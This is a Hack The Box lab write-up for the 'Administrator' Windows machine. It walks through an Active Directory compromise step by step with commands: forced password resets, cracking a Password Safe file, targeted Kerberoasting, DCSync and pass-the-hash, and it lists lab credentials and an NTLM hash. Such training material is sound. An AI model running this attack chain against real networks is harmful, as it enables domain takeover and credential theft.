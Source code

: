 # HTB - Administrator

**IP Address:** `10.10.11.42`  
**OS:** Windows  
**Difficulty:** Hard  
**Tags:** #SMB, #WinRM, #BloodHound, #ShadowCredentials, #RPC, #PasswordCracking, #DCSync, #Kerberoast

**Extra initial information:**
- User: olivia
- Password: ichliebedich

---

## 1. Initial Enumeration

### 1.1 Host Discovery

```bash
ping 10.10.11.42
```

✅ Host is alive.

---

### 1.2 Port Scanning

Initial full TCP port scan:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.42 -oG allPorts
```

Identified several open ports. Followed by a detailed targeted scan with script and version detection:

```bash
nmap -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49668,51918,54283,54288,54302,54310 -sCV 10.10.11.42 -oN targeted -oX targetedXML
```

Exported results to XML for later web-based analysis — a technique I hadn’t used before and found helpful for clarity.

---

## 2. SMB and WinRM Access

Started with classic enumeration via CrackMapExec:

```bash
crackmapexec smb 10.10.11.42
```

Added the machine name to `/etc/hosts`:

```
10.10.11.42 administrator.htb
```

Used NetExec (modern CrackMapExec fork) for further enumeration:

```bash
netexec smb 10.10.11.42 --shares
netexec smb 10.10.11.42 -u olivia -p ichliebedich
```

✅ Valid credentials for `olivia`, but:

- Not a member of Remote Management Users → No RCE via SMB
    
- No shared folders available
    

Tried WinRM instead:

```bash
netexec winrm 10.10.11.42 -u olivia -p ichliebedich
```

✅ Login successful → Shell access via Evil-WinRM:

```bash
evil-winrm -i 10.10.11.42 -u olivia -p 'ichliebedich'
```

---

## 3. User Enumeration and RPC Abuse

Inside the WinRM shell, listed domain users:

```bash
net user
```

Tried to enumerate with `rpcclient` anonymously:

```bash
rpcclient -U "" 10.10.11.42 -N
```

❌ Failed. Retried with valid credentials:

```bash
rpcclient -U "olivia%ichliebedich" 10.10.11.42
```

✅ Success.

- Enumerated domain users and groups with `enumdomusers`, `enumdomgroups`
    

Dumped domain users:

```bash
rpcclient -U "olivia%ichliebedich" 10.10.11.42 -c 'enumdomusers' > users.txt
cat users.txt | grep -oP '\\[.*?\\]' | grep -v "0x" | tr -d '[]' | sponge users.txt
```

→ Cleaned with regex and `sponge` for clarity.

Attempted AS-REP Roasting:

```bash
GetNPUsers.py -no-pass -usersfile users.txt administrator.htb/
```

❌ No users vulnerable.  
Tried again with valid Olivia credentials → still no success.

---

## 4. LDAP and BloodHound Enumeration

While waiting for BloodHound setup, dumped LDAP data:

```bash
ldapdomaindump -u 'administrator.htb\\olivia' -p ichliebedich 10.10.11.42
```

Started a Python web server to browse the dump:

```bash
python3 -m http.server 80
```

Opened `domain_users.html`, `Remote Management Users.html`, reviewed domain structure.

Installed BloodHound CLI:

```bash
wget https://github.com/SpecterOps/bloodhound-cli/releases/latest/download/bloodhound-cli-linux-amd64.tar.gz
```

```bash
tar -xvzf bloodhound-cli-linux-amd64.tar.gz
```

```bash
sudo ./bloodhound-cli install
```

Collected BloodHound data with:

```bash
bloodhound-python -u 'olivia' -p 'ichliebedich' -c All --zip -ns 10.10.11.42 -d administrator.htb
```

Visualized paths → `olivia` has **GenericAll** on `michael`.

---

## 5. Lateral Movement to `michael`

Used password reset attack (ForceChangePassword) recommended by BloodHound:

```bash
net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"olivia"%"ichliebedich" -S 10.10.11.42
```

✅ Successfully reset password.

BloodHound shows `michael` has GenericAll over `benjamin`. Repeated attack:

```bash
net rpc password "benjamin" "newP@ssword2022" -U "administrator.htb"/"michael"%"newP@ssword2022" -S 10.10.11.42
```

✅ Password reset success. However:

- `benjamin` ∉ Remote Management Users
    
- Belongs to `Share Moderators`
    

---

## 6. Access via SMB and FTP

Used `smbmap` for recursive file listing:

```bash
smbmap -H 10.10.11.42 -u benjamin -p 'newP@ssword2022' -r
```

Nothing useful from SMB. Tried FTP with same credentials:

```bash
ftp 10.10.11.42
```

✅ Found and downloaded `Backup.psafe3`.

---

## 7. Cracking the Password Safe

Identified file as Password Safe DB. Used CLI utility:

```bash
pwsafe Backup.psafe3
```

❌ Prompted for password.

Extracted hash with `pwsafe2john`, then cracked with rockyou:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

✅ Cracked password: `tekieromucho`

Accessed safe and recovered passwords of 3 users. Most interesting: `emily`.

---

## 8. PrivEsc with `emily` via Kerberoasting

Logged in with Evil-WinRM as `emily`:

```bash
evil-winrm -i 10.10.11.42 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

BloodHound → `emily` has relation with `ethan`.

Used Targeted Kerberoast attack:

```bash
python3 targetedKerberoast.py -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -d administrator.htb --dc-ip 10.10.11.42
```

✅ Retrieved `ethan` TGS hash. Cracked it:

```bash
john hash_ethan --wordlist=/usr/share/wordlists/rockyou.txt
```

✅ Password: `limpbizkit`

---

## 9. DCSync Attack as Domain Admin

BloodHound → `ethan` can perform DCSync.

Executed:

```bash
secretsdump.py administrator.htb/ethan:limpbizkit@10.10.11.42
```

✅ Dumped `Administrator` NTLM hash.

Logged in:

```bash
evil-winrm -i 10.10.11.42 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

🏁 Root shell obtained.

---

# ✅ MACHINE COMPLETE
